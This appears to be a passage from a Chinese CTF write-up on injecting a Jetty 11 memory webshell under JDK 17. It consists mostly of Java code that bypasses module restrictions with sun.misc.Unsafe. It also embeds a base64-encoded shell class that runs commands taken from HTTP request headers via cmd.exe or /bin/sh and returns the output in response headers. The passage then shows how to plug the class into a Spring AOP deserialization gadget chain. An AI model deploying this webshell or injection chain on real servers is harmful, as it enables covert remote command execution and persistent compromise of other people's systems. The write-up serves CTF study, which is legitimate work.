package mem;

import sun.misc.Unsafe;

import java.lang.reflect.Field;
import java.lang.reflect.Method;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.Base64;
public class jetty11mem {
    static {
        new jetty11mem();
    }
    public jetty11mem(){
        try {
            Class unsafeClass = Class.forName("sun.misc.Unsafe");
            Field unsafeField = unsafeClass.getDeclaredField("theUnsafe");
            unsafeField.setAccessible(true);
            Unsafe unsafe = (Unsafe) unsafeField.get(null);

            Module module = Object.class.getModule();
            Class cls = jetty11mem.class;
            long offset = unsafe.objectFieldOffset(Class.class.getDeclaredField("module"));
            unsafe.getAndSetObject(cls, offset, module);

            Method defineClass = ClassLoader.class.getDeclaredMethod("defineClass", byte[].class, Integer.TYPE, Integer.TYPE);
            defineClass.setAccessible(true);
            byte[] bytecode= Files.readAllBytes(Paths.get("E:\ezjava\myapp\target\classes\ctf\challenge\memshell.class"));
            //或者以base64字节码的方式加载内存马  byte[] bytecode = Base64.getDecoder().decode("yv66vgAAAD0BFAoAAgADBwAEDAAFAAYBABBqYXZhL2xhbmcvT2JqZWN0AQAGPGluaXQ+AQADKClWCgAIAAkHAAoMAAsABgEAFmN0Zi9jaGFsbGVuZ2UvbWVtc2hlbGwBAAltZW1zaGVsbDEHAA0BABNqYXZhL2xhbmcvRXhjZXB0aW9uBwAPAQAaamF2YS9sYW5nL1J1bnRpbWVFeGNlcHRpb24KAA4AEQwABQASAQAYKExqYXZhL2xhbmcvVGhyb3dhYmxlOylWBwAUAQAPc3VuL21pc2MvVW5zYWZlCAAWAQAJdGhlVW5zYWZlCgAYABkHABoMABsAHAEAD2phdmEvbGFuZy9DbGFzcwEAEGdldERlY2xhcmVkRmllbGQBAC0oTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvcmVmbGVjdC9GaWVsZDsKAB4AHwcAIAwAIQAiAQAXamF2YS9sYW5nL3JlZmxlY3QvRmllbGQBAA1zZXRBY2Nlc3NpYmxlAQAEKFopVgoAHgAkDAAlACYBAANnZXQBACYoTGphdmEvbGFuZy9PYmplY3Q7KUxqYXZhL2xhbmcvT2JqZWN0OwoAGAAoDAApACoBAAlnZXRNb2R1bGUBABQoKUxqYXZhL2xhbmcvTW9kdWxlOwgALAEABm1vZHVsZQoAEwAuDAAvADABABFvYmplY3RGaWVsZE9mZnNldAEAHChMamF2YS9sYW5nL3JlZmxlY3QvRmllbGQ7KUoKABMAMgwAMwA0AQAJcHV0T2JqZWN0AQAoKExqYXZhL2xhbmcvT2JqZWN0O0pMamF2YS9sYW5nL09iamVjdDspVgoACAA2DAA3AAYBAAxieXBhc3Ntb3VkbGUKADkAOgcAOwwAPAA9AQAQamF2YS9sYW5nL1RocmVhZAEADWN1cnJlbnRUaHJlYWQBABQoKUxqYXZhL2xhbmcvVGhyZWFkOwgAPwEADHRocmVhZExvY2FscwoACABBDABCAEMBAA1nZXRGaWVsZFZhbHVlAQA4KExqYXZhL2xhbmcvT2JqZWN0O0xqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL09iamVjdDsIAEUBAAV0YWJsZQcARwEAE1tMamF2YS9sYW5nL09iamVjdDsIAEkBAAZzaHVzaHUIAEsBAAhyZXNodXNodQgATQEABXZhbHVlCgACAE8MAFAAUQEACGdldENsYXNzAQATKClMamF2YS9sYW5nL0NsYXNzOwoAGABTDABUAFUBAAdnZXROYW1lAQAUKClMamF2YS9sYW5nL1N0cmluZzsIAFcBACdvcmcuZWNsaXBzZS5qZXR0eS5zZXJ2ZXIuSHR0cENvbm5lY3Rpb24KAFkAWgcAWwwAXABdAQAQamF2YS9sYW5nL1N0cmluZwEABmVxdWFscwEAFShMamF2YS9sYW5nL09iamVjdDspWggAXwEACF9jaGFubmVsCABhAQAIX3JlcXVlc3QIAGMBAAlfcmVzcG9uc2UIAGUBAAlnZXRIZWFkZXIKAAgAZwwAaABpAQAMaW52b2tlTWV0aG9kAQBdKExqYXZhL2xhbmcvT2JqZWN0O0xqYXZhL2xhbmcvU3RyaW5nO1tMamF2YS9sYW5nL0NsYXNzO1tMamF2YS9sYW5nL09iamVjdDspTGphdmEvbGFuZy9PYmplY3Q7CgAIAGsMAGwAbQEABGV4ZWMBACYoTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvU3RyaW5nOwgAbwEACXNldEhlYWRlcgoACABxDAByAHMBAAhnZXRGaWVsZAEAPihMamF2YS9sYW5nL0NsYXNzO0xqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL3JlZmxlY3QvRmllbGQ7CAB1AQAHb3MubmFtZQoAdwB4BwB5DAB6AG0BABBqYXZhL2xhbmcvU3lzdGVtAQALZ2V0UHJvcGVydHkKAFkAfAwAfQBVAQALdG9Mb3dlckNhc2UIAH8BAAN3aW4KAFkAgQwAggCDAQAIY29udGFpbnMBABsoTGphdmEvbGFuZy9DaGFyU2VxdWVuY2U7KVoIAIUBAAdjbWQuZXhlCACHAQACL2MIAIkBAAcvYmluL3NoCACLAQACLWMKAI0AjgcAjwwAkACRAQARamF2YS9sYW5nL1J1bnRpbWUBAApnZXRSdW50aW1lAQAVKClMamF2YS9sYW5nL1J1bnRpbWU7CgCNAJMMAGwAlAEAKChbTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvUHJvY2VzczsKAJYAlwcAmAwAmQCaAQARamF2YS9sYW5nL1Byb2Nlc3MBAA5nZXRJbnB1dFN0cmVhbQEAFygpTGphdmEvaW8vSW5wdXRTdHJlYW07BwCcAQAXamF2YS9sYW5nL1N0cmluZ0J1aWxkZXIKAJsAAwoAnwCgBwChDACiAKMBABNqYXZhL2lvL0lucHV0U3RyZWFtAQAEcmVhZAEABShbQilJCgClAKYHAKcMAKgAqQEAEGphdmEvdXRpbC9CYXNlNjQBAApnZXRFbmNvZGVyAQAcKClMamF2YS91dGlsL0Jhc2U2NCRFbmNvZGVyOwoAmwCrDACsAFUBAAh0b1N0cmluZwoAWQCuDACvALABAAhnZXRCeXRlcwEABCgpW0IKALIAswcAtAwAtQC2AQAYamF2YS91dGlsL0Jhc2U2NCRFbmNvZGVyAQAOZW5jb2RlVG9TdHJpbmcBABYoW0IpTGphdmEvbGFuZy9TdHJpbmc7CgBZALgMAAUAuQEAByhbQklJKVYKAJsAuwwAvAC9AQAGYXBwZW5kAQAtKExqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL1N0cmluZ0J1aWxkZXI7BwC/AQAeamF2YS9sYW5nL05vU3VjaEZpZWxkRXhjZXB0aW9uCgAYAMEMAMIAUQEADWdldFN1cGVyY2xhc3MKAAgAxAwAaADFAQBuKExqYXZhL2xhbmcvQ2xhc3M7TGphdmEvbGFuZy9PYmplY3Q7TGphdmEvbGFuZy9TdHJpbmc7W0xqYXZhL2xhbmcvQ2xhc3M7W0xqYXZhL2xhbmcvT2JqZWN0OylMamF2YS9sYW5nL09iamVjdDsKABgAxwwAyADJAQARZ2V0RGVjbGFyZWRNZXRob2QBAEAoTGphdmEvbGFuZy9TdHJpbmc7W0xqYXZhL2xhbmcvQ2xhc3M7KUxqYXZhL2xhbmcvcmVmbGVjdC9NZXRob2Q7CgDLAB8HAMwBABhqYXZhL2xhbmcvcmVmbGVjdC9NZXRob2QKAMsAzgwAzwDQAQAGaW52b2tlAQA5KExqYXZhL2xhbmcvT2JqZWN0O1tMamF2YS9sYW5nL09iamVjdDspTGphdmEvbGFuZy9PYmplY3Q7CgAIAAMBAARDb2RlAQAPTGluZU51bWJlclRhYmxlAQASTG9jYWxWYXJpYWJsZVRhYmxlAQABZQEAFUxqYXZhL2xhbmcvRXhjZXB0aW9uOwEABHRoaXMBABhMY3RmL2NoYWxsZW5nZS9tZW1zaGVsbDsBAA1TdGFja01hcFRhYmxlAQAGdW5zYWZlAQARTHN1bi9taXNjL1Vuc2FmZTsBAAVmaWVsZAEAGUxqYXZhL2xhbmcvcmVmbGVjdC9GaWVsZDsBAApiYXNlTW9kdWxlAQASTGphdmEvbGFuZy9Nb2R1bGU7AQAMY3VycmVudENsYXNzAQARTGphdmEvbGFuZy9DbGFzczsBAAZvZmZzZXQBAAFKAQAKRXhjZXB0aW9ucwEAB2NoYW5uZWwBABJMamF2YS9sYW5nL09iamVjdDsBAAVlbnRyeQEAAWkBAAFJAQADbGVuAQAGSEVBREVSAQAHUkhFQURFUgEAB3JlcXVlc3QBAAhyZXNwb25zZQEABmhlYWRlcgEAEkxqYXZhL2xhbmcvU3RyaW5nOwEABnJlc3VsdAEAA29iagEACWZpZWxkTmFtZQEAA2NtZAEAE1tMamF2YS9sYW5nL1N0cmluZzsBAANzdHIBAAtpbnB1dFN0cmVhbQEAFUxqYXZhL2lvL0lucHV0U3RyZWFtOwEABWJ5dGVzAQACW0IBAA1zdHJpbmdCdWlsZGVyAQAZTGphdmEvbGFuZy9TdHJpbmdCdWlsZGVyOwcA9QcA+gEABHZhcjQBACBMamF2YS9sYW5nL05vU3VjaEZpZWxkRXhjZXB0aW9uOwEABWNsYXp6AQAWTG9jYWxWYXJpYWJsZVR5cGVUYWJsZQEAFExqYXZhL2xhbmcvQ2xhc3M8Kj47AQAJU2lnbmF0dXJlAQBBKExqYXZhL2xhbmcvQ2xhc3M8Kj47TGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvcmVmbGVjdC9GaWVsZDsBAAR2YXI1AQAKbWV0aG9kTmFtZQEACWFyZ3NDbGFzcwEAEltMamF2YS9sYW5nL0NsYXNzOwEABGFyZ3MBAANjbHMBAAZtZXRob2QBABpMamF2YS9sYW5nL3JlZmxlY3QvTWV0aG9kOwEABm9iamVjdAEACDxjbGluaXQ+AQAKU291cmNlRmlsZQEADW1lbXNoZWxsLmphdmEBAAxJbm5lckNsYXNzZXMBAAdFbmNvZGVyACEACAACAAAAAAAJAAEABQAGAAEA0gAAAHsAAwACAAAAFSq3AAG4AAenAA1MuwAOWSu3ABC/sQABAAQABwAKAAwAAwDT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");
            Class clazz = (Class) defineClass.invoke(Thread.currentThread().getContextClassLoader(), bytecode, 0, bytecode.length);
            clazz.newInstance();
        }catch (Exception e){
            throw new RuntimeException(e);
        }

    }
}

```

‍

最后只需要在

```
SpringAOPAndJDK17中的

CtClass ctClass = pool.makeClass("Calc");
ctClass.addConstructor(CtNewConstructor.make("public Calc() { Runtime.getRuntime().exec("calc"); }", ctClass));
CtClass ctClass1 = pool.makeClass("Foo");
byte[] bytecode = ctClass.toBytecode();
byte[] bytecode1 = ctClass1.toBytecode();
修改为下面这个

CtClass ctClass = pool.get("mem.jetty11mem");
CtClass ctClass1 = pool.makeClass("Calc");
byte[] bytecode = ctClass.toBytecode();
byte[] bytecode1 = ctClass1.toBytecode();
```

最后成功注入



​
